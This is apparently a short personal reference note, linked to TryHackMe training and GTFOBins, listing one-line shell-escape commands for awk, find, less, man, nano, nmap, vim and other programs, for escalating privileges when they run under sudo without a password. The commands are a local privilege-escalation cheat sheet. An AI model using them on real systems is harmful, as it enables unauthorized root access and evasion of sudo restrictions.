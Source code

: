 # Shell Escapes

Many common UNIX applications allow you to escape to a shell. This is particularly useful if they can be run with NOPASSWD via sudo.

* `awk` — `awk 'BEGIN {system("/bin/sh")}'`
* `find` — `find . -exec /bin/sh \; -quit`
* `ftp` — `!/bin/sh`
* `iftop` — `!/bin/sh`
* `less` — `!/bin/sh`
* `man` — `!/bin/sh`
* `more` — `!/bin/sh` (may require TERM to be unset)
* `nano` — ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` — create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` — see “Set a Shell in ViM”

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins](https://gtfobins.github.io)
* [Enumerate “sudo” Access](enumerate-sudo-access.md)
* [Set a Shell in ViM](set-a-shell-in-vim.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 31, 2021
